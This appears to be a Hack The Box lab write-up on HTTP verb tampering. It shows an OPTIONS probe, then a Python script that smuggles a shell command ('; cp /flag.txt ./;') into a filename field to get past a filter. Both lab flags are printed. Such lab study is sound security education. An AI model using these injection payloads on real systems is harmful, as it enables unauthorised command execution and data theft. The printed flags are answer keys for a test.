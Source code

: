 # Http Verb Tampering

## First module:

### Bypass Authentication.

Once we have a single page, we can just try to change the request method
you can view in the headers if the site allows any other methods like:
POST
GET
PUT
DELETE
HEAD

```bash
curl -s -i -X OPTIONS "https://server:port/"
```
For this example, we tried using the changed method as we mentioned above,
and we got bypass the authentication performing the method changed
and of course get the flag. HTB{4lw4y5_c0v3r_4ll_v3rb5}

```html
<div></div><ul id="file">HTB{4lw4y5_c0v3r_4ll_v3rb5}<div><h3>Available Files:<h3></div></ul></div>
```

## Second module.

### Bypassing Security Filters.


The other and more common type of HTTP Verb Tampering vulnerability
is caused by Insecure Coding errors made during the development of the
web application, which lead to web application not covering all HTTP
methods in certain functionalities. This is commonly found in security 
filters that detect malicious requests. For example, if a security filter
was being used to detect injection vulnerabilities and only checked for
injections in POST parameters (e.g. $_POST['parameter']), it may be
possible to bypass it simply changing the request method to GET.

For this module, to get the bypass, we use the following code snippet

```python
#!/usr/bin/python3

import requests
import sys


def main():
    try:
        url = "http://46.101.14.124:32738/index.php"
        payload = "test1%3B+cp+/flag.txt+./%3B"
        print(payload)
        response = requests.post(url=url, data={"filename": payload})
        # print(response.text)
        print(response.url)
    except Exception as e:
        print(str(e))
        sys.exit(1)
    except KeyboardInterrupt:
        print(str("""\n\t\t [*] Exiting..."""))
        sys.exit(0)


if __name__ == "__main__":
    main()
```
The flag is: "HTB{b3_v3rb_c0n51573n7}"